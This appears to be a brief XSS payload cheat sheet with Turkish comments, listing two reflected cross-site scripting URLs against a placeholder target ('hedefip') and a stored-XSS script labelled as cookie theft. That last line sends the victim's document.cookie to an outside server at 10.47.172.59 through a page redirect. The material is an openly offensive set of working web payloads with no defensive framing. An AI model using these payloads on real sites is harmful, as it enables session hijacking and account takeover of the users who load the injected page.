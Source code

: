 ***XSS***

//klasik alert
http://hedefip/xss3.php#<img src='xxx' onerror=alert(1)>

//image'a src veril mause üzerine geldiğinde alert verme
http://hedefip/xss3.php#<img src='http://ss.com/geyik-300x279.png' onmouseover=alert('hacked')>

//xss stored cookie çalma
<script>window.location ="http://10.47.172.59/nightwatch.php?"+document.cookie</script>
